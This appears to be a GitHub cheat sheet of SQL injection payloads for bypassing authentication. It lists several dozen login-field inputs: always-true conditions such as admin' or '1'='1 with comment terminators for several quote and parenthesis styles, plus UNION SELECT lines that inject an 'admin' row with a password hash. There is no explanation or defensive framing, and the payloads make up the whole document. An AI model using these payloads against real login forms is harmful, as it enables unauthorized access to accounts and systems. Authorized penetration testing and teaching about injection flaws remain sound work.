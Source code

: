 # SQL Injection Authentication-Bypass (Cheat Sheet)

``` or 1=1 ```
``` or 1=1-- ``` 
``` or 1=1# ```
``` or 1=1/* ```
``` admin' -- ``` 
``` admin' # ``` 
``` admin'/* ``` 
``` admin' or '1'='1 ``` 
``` admin' or '1'='1'-- ``` 
``` admin' or '1'='1'# ``` 
``` admin' or '1'='1'/* ``` 
``` admin'or 1=1 or ''='
``` admin' or 1=1
``` admin' or 1=1--
``` admin' or 1=1#
``` admin' or 1=1/*
``` admin') or ('1'='1
``` admin') or ('1'='1'--
``` admin') or ('1'='1'#
``` admin') or ('1'='1'/*
``` admin') or '1'='1
``` admin') or '1'='1'--
``` admin') or '1'='1'#
``` admin') or '1'='1'/*
``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
``` admin" --
``` admin" #
``` admin"/*
``` admin" or "1"="1
``` admin" or "1"="1"--
``` admin" or "1"="1"#
``` admin" or "1"="1"/*
``` admin"or 1=1 or ""="
``` admin" or 1=1
``` admin" or 1=1--
``` admin" or 1=1#
``` admin" or 1=1/*
``` admin") or ("1"="1
``` admin") or ("1"="1"--
``` admin") or ("1"="1"#
``` admin") or ("1"="1"/*
``` admin") or "1"="1
``` admin") or "1"="1"--
``` admin") or "1"="1"#
``` admin") or "1"="1"/*
``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
